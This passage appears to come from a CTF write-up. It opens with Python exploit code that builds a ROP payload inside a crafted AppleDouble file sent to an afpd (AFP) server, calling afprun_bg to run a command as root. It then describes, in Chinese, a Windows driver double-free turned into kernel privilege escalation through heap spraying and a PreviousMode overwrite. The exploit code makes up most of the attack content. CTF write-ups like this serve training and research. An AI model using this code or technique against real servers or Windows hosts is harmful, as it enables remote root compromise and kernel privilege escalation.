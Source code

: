 ```plain

# step 5:  write payload at return address on stack 
# will call afprun_bg("command") to run command as root
# -------------------------------------------------------- second write (afprun_bg)
cpt_file_name += 1
tempfile_name_normal = str.encode('{}_{}'.format(tempfile_name, cpt_file_name))
tempfile_name_adouble = str.encode('._{}_{}'.format(tempfile_name, cpt_file_name))
gadget1 = afpd_base+0xa05c+1    # afprun_bg
gadget2 = afpd_base+0x00000921 # pop {r0, r1, r2, r4, r5, r6, r7, pc};

payload  = p32(gadget2,endian='little')
payload += p32(1,endian='little')+p32( ((ad_addr-0x78)+0x40),endian='little')+p32(0)*5
payload += p32(gadget1,endian='little')+b'\x00'*0x40

ad = craft_write_AppleDouble(((ad_addr-0x9c) - (mmap_zone+32)), payload+command_to_execute)     # execute command

# create a simple file with bullshit inside
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id, fork1 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2,tempfile_name_normal, debug)
data = b'Hello'
response, request_id = FPWriteExt(p, request_id, fork1, 0, len(data), data, debug)
response, request_id = FPCloseFork(p, request_id, fork1, debug)
# create an appledouble file on target
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)
response, request_id, fork2 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2, tempfile_name_adouble, debug)
response, request_id = FPWriteExt(p, request_id, fork2, 0, len(ad), ad, debug)    
# time to trig the vuln
response, request_id, fork3 = FPOpenFork(p, request_id, 1, volume_id, 2, 0, 3, 2, tempfile_name_normal, debug)
response, request_id = FPCloseFork(p, request_id, fork2, debug)
response, request_id = FPCloseFork(p, request_id, fork3, debug)

response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)

DSICloseSession(p, request_id, debug)
p.close()
```

the `afputils.py`library is required for it.

## SYSTEM

SYSTEM是一个Windows第三方驱动的提权题目，有漏洞的驱动通过DeviceIoControl向用户态分别提供了64位和32位下的申请内存并映射到用户态以及释放映射和释放内存的功能。  
题目漏洞比较明显，在两个释放的处理逻辑中都没有将指针置空，连续释放两次既发生double free。如果是一个同样逻辑的Linux Kernel题目，在当今内卷的CTF背景下恐怕只能是baby或者easy级别的题目了，这里虽然平台换成了Windows，但基本思想一致，同样是将double free转化为特定对象的UAF，构造更强的原语完成利用。

这里发生double free的对象是[MDL](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/ns-wdm-_mdl)，属于Non Paged Pool，作者选用的堆喷对象是[NpFr(named pipe)](https://github.com/vportal/HEVD?tab=readme-ov-file#exploitation-strategy)和[IoSb(IopVerifierExAllocatePoolWithQuota)](https://www.anquanke.com/post/id/255916#h3-8)来占位Ws2P(ws2ifsl)，在关闭ws2ifsl的handle时可以造成一个arbitrary decrement，通过修改[\_KTHREAD.PreviousMode](https://www.zscaler.com/blogs/security-research/technical-analysis-windows-clfs-zero-day-vulnerability-cve-2022-37969-part2-exploit-analysis)构造读写原语完成利用。
